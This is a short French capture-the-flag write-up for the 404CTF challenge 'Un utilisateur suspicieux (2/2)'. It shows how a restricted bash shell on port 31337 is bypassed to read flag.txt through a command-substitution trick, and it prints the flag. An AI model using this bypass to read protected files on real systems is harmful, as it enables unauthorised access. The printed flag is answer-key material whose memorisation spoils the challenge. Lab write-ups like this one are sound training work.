 ## Un utilisateur suspicieux (2/2)

### Description

Après avoir réussi à s'authentifier, on peut se connecter au serveur sur le port 31337.
On arrive alors sur un shell dont les commandes sont restreintes.
```bash
bash-4.4$ ls
ls
bash: ls: command not found
bash-4.4$ whoami
whoami
bash: whoami: command not found
```

On peut sans trop prendre de risque imaginer que dans le dossier se situe le fichier ```flag.txt``` tant convoité.

### Exploit

Bien que le challenge soit solvable en utilisant les quelques commandes à disposition (par exemple avec ```echo```), voici une solution n'utilisant aucune commande :

```bash
bash-4.4$ $($(<flag.txt))
$($(<flag.txt))
bash: 404CTF{17_s_4g155417_3n_f4iT_d_1_b0t}: command not found
```

On a ainsi notre flag.